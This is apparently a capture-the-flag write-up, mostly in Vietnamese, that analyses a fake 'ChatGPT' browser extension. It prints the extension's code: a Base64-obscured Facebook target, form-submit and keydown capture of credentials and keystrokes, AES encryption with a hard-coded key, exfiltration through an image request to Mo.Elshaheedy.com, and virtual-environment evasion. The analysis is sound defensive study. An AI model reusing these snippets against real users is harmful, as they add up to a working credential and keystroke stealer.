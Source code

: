 # Mô tả

Your cybersecurity team has been alerted to suspicious activity on your organization's network. Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT". However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.

**Your task** is to perform a thorough analysis of this extension identify its malicious components.

# Phân tích

## Flag 1 + 2

Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

Tìm kiếm trong file app.js sẽ thấy cách hoạt động thực sự của extension chatgpt giả này

```js
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```

`Base64`

`www.facebook.com`

## Flag 3

Which type of HTML element is utilized by the extension to send stolen data?

Muốn biết dùng HTML element nào thì phải tìm trong các hàm exfiltrate, send để xem gửi đi kiểu gì

```js
function sendToServer(encryptedData) {
        var img = new Image();
        img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
        document.body.appendChild(img);
    }
```

Ở đây thấy được extension sử dụng tag <img> để tải dữ liệu đánh cắp được lên `Mo.Elshaheedy.com/collect?data=` sau đó là dữ liệu được mã hoá. Dữ liệu được được nhúng vào URL của ảnh dưới dạng tham số `data`

`<img>`

## Flag 4

What is the first specific condition in the code that triggers the extension to deactivate itself?

Ở app.js thì không tìm thấy gì nên chuyển qua xem `loader.js` được sử dụng để load thêm các hàm vào trong lúc đang chạy extension

```js
// Check if the browser is in a virtual environment
    if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
        alert("Virtual environment detected. Extension will disable itself.");
        chrome.runtime.onMessage.addListener(() => { return false; });
    }
```

Vậy là extension sẽ tự động tắt nếu đang chạy trong môi trường giả lập

`navigator.plugins.length === 0`

## Flag 5 + 6

Which event does the extension capture to track user input submitted through forms?

Which API or method does the extension use to capture and monitor user keystrokes?

```js
if (targets.indexOf(window.location.hostname) !== -1) {
        document.addEventListener('submit', function(event) {
            let form = event.target;
            let formData = new FormData(form);
            let username = formData.get('username') || formData.get('email');
            let password = formData.get('password');

            if (username && password) {
                exfiltrateCredentials(username, password);
            }
        });

        document.addEventListener('keydown', function(event) {
            var key = event.key;
            exfiltrateData('keystroke', key);
        });
    }
```

Đây là đoạn mà extension giám sát và lưu lại keystrokes, dữ liệu cá nhân của người dùng

Để theo dõi các input vào form, extension sử dụng method `submit`, khi nhập các dữ liệu cá nhân như email, tk, mk,... thì sẽ thường nhập qua các ô form thì có thể dễ lấy được chúng hơn bằng cách này bởi nó chỉ lưu lại khi submit form khi gửi cho facebook

Để theo dõi keystrokes extension sử dụng `keydown` cái này sẽ lấy được người dùng đã nhập những gì trong thời gian extension được bật

## Flag 7

What is the domain where the extension transmits the exfiltrated data?

Đã giải thích ở trên

`Mo.Elshaheedy.com`

## Flag 8

Which function in the code is used to exfiltrate user credentials, including the username and password?

Hàm exfiltrate tất cả dữ liệu creds là

``` js
function exfiltrateCredentials(username, password) {
        const payload = { user: username, pass: password, site: window.location.hostname };
        const encryptedPayload = encryptPayload(JSON.stringify(payload));
        sendToServer(encryptedPayload);
    }
```

## Flag 9

Which encryption algorithm is applied to secure the data before sending?

```js
function encryptPayload(data) {
        const key = CryptoJS.enc.Utf8.parse('SuperSecretKey123');
        const iv = CryptoJS.lib.WordArray.random(16);
        const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
        return iv.concat(encrypted.ciphertext).toString(CryptoJS.enc.Base64);
    }
```

`AES`

## Flag 10

What does the extension access to store or manipulate session-related data and authentication information?

Muốn biết extension lưu và chỉnh sửa được các dữ liệu nào trong session thì nên xem file `manifest.json` mục `Permissions` thì sẽ biết được quyền truy cập của nó đến đâu

```json
"permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage",
    "webRequest",
    "webRequestBlocking",
    "cookies"
  ],
```

`cookies`